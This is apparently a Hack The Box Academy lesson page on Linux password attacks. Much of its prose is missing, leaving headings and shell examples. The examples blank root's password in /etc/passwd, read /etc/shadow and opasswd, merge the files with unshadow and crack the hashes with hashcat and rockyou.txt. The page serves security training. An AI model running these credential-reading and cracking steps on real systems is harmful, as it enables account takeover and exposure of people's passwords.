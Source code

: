 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/147/section/1319
// Platform Version: V1
// Module ID: 147
// Module Name: Password Attacks
// Module Difficulty: Medium
// Section ID: 1319
// Section Title: Passwd, Shadow & Opasswd
// Page Title: Password Attacks
// Page Number: 12
-->

# Passwd, Shadow & Opasswd

**Module Name:** Password Attacks **Page Number:** 12

#### PASSWORD ATTACKS

# Passwd, Shadow & Opasswd

## Passwd File

#### Passwd Format

#### Editing /etc/passwd - Before

``` shell-session
root:x:0:0:root:/root:/bin/bash
```

#### Editing /etc/passwd - After

``` shell-session
root::0:0:root:/root:/bin/bash
```

#### Root without Password

``` shell-session
[cry0l1t3@parrot]─[~]$ head -n 1 /etc/passwd

root::0:0:root:/root:/bin/bash


[cry0l1t3@parrot]─[~]$ su

[root@parrot]─[/home/cry0l1t3]#
```

## Shadow File

#### Shadow Format

#### Shadow File

``` shell-session
[cry0l1t3@parrot]─[~]$ sudo cat /etc/shadow

root:*:18747:0:99999:7:::
sys:!:18747:0:99999:7:::
...SNIP...
cry0l1t3:$6$wBRzy$...SNIP...x9cDWUxW1:18937:0:99999:7:::
```

#### Algorithm Types

## Opasswd

#### Reading /etc/security/opasswd

``` shell-session
[!bash!]$ sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

## Cracking Linux Credentials

#### Unshadow

``` shell-session
[!bash!]$ sudo cp /etc/passwd /tmp/passwd.bak 
[!bash!]$ sudo cp /etc/shadow /tmp/shadow.bak 
[!bash!]$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

#### Hashcat - Cracking Unshadowed Hashes

``` shell-session
[!bash!]$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

#### Hashcat - Cracking MD5 Hashes

``` shell-session
[!bash!]$ cat md5-hashes.list

qNDkF0zJ3v8ylCOrKB0kt0
E9uMSmiQeRh4pAAgzuvkq1
```

``` shell-session
[!bash!]$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```

# 

# 

#### Questions

####